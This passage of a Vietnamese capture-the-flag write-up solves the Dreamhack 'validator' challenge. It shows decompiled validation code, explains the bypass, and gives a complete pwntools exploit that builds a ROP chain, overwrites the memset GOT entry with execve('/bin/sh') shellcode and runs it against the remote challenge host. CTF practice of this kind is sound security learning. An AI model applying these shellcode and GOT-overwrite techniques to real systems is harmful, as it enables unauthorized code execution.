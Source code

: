   for ( i = 0; i <= 9; ++i )
  {
    if ( *(_BYTE *)((signed int)i + a1) != correct[i] )	// corret = "DREAMHACK!"
      exit(0);
  }
  for ( j = 11; a2 > j; ++j )
  {
    if ( *(unsigned __int8 *)(j + a1) != *(char *)(j + 1LL + a1) + 1 )
      exit(0);
  }
  return 0LL;
}
```

vòng for đầu sẽ check với chuỗi "dreamhack"

vòng for thứ 2 sẽ check kí tự j với (j+1) +1 có nghĩa là nếu j=128 là kí tự a thì index 129 phải là kí tự b , nếu khác thì exit , ta có thể nhập bất kì giá trị nào miễn thõa mãn là được 


![image](https://hackmd.io/_uploads/B13IRSj7Je.png)

- có nghĩa là phiên bản kernel trước đó thì vùng bss sẽ có thể execute được -> có thể truyền shellcode vào bss và thực thi

- để bypass vòng for thứ hai thì chỉ cần gửi vào các byte từ lớn đến bé 

- ở đây ta sẽ ghi vào got luôn cũng dc , mình sẽ chọn memset để ghi và return vào memset để thực thi shellcode

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./validator_dist')
#p = process()
p = remote('host3.dreamhack.games', 12773)
input()
pop_rdi = 0x00000000004006f3
pop_rdx = 0x000000000040057b
pop_rsi_r15 = 0x00000000004006f1
exit_ = exe.got.exit
shellcode_1 = asm('''
                mov rbx , 29400045130965551
                push rbx
                mov rdi,rsp
                xor rsi,rsi
                xor rdx,rdx
                mov rax,0x3b
                syscall
                ''',arch='amd64')
payload = b'DREAMHACK!'
payload += b'0'
for i in range(128-11,-1,-1):
    payload += bytes([i])
payload += b'a'*7
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rdx) + p64(0x200)
payload += p64(pop_rsi_r15) + p64(exe.got.memset) + p64(0)
payload += p64(exe.plt.read)
payload += p64(exe.got.memset)
p.send(payload)
sleep(1)
p.send(shellcode_1)